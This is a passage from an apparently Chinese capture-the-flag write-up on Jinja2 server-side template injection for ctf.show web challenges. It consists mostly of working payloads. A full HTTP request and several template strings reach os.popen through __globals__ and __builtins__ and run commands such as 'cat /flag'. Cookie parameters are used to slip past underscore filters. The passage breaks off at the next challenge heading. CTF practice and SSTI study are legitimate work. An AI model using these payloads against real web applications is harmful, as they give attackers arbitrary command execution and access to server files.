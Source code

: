 payload

```http
GET /?name={{url_for.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}} HTTP/1.1
Host: 6e1bc5bc-00da-4f22-b792-57d71099f3ed.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://6e1bc5bc-00da-4f22-b792-57d71099f3ed.challenge.ctf.show/?name={{url_for.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}}
Cookie:x2=__import__('os').popen('cat /flag').read();x1=__builtins__
Connection: close
Upgrade-Insecure-Requests: 1
```

## web366(过滤了下划线_)

payload

> attr()
>   获取对象的属性。foo|attr("bar") 等价于 foo.bar

```
{{lipsum.__globals__.os.popen("cat /f*").read()}}
```

```
name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}
```

```
Cookie传参：
a=__globals__;b=cat /f*
```

另一payload

```
{{x.__init__.__globals__.__getitem__(__builtins__).eval("__import__("os").popen("cat /f*").read()")}}
```

```
?name={{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}

Cookie传参：
x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /f*').read()
```

## web367(过滤了os)

可以是由request代替
